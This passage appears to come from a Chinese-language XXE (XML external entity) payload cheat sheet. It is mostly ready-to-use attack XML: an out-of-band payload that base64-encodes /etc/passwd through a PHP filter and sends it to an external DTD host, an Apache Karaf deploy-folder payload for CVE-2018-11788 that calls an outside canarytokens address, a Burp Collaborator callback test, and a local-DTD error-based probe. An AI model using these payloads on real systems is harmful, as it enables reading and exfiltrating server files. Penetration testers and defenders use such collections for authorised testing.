 ### 使用DTD和PHP过滤器的XXE OOB

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://127.0.0.1/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

存储在http://127.0.0.1/dtd.xml上的文件
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://127.0.0.1/dtd.xml?%data;'>">
```

### Apache Karaf的XXE OOB

影响版本：

- Apache Karaf <= 4.2.1
- Apache Karaf <= 4.1.6

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```

将XML文件发送到`deploy`文件夹。

参考 [brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)

## 使用本地DTD的XXE

在某些情况下，Web应用程序无法进行传出连接。即使是这样的有效负载，DNS名称也可能无法在外部解析：

```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://h3l9e5soi0090naz81tmq5ztaaaaaa.burpcollaborator.net'>]>
<root>&test;</root>
```

如果基于错误的泄露是可能的，你仍然可以依赖于本地DTD来进行连接技巧。确认错误消息包括文件名的有效负载。

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">

    %local_dtd;
]>
<root></root>
```

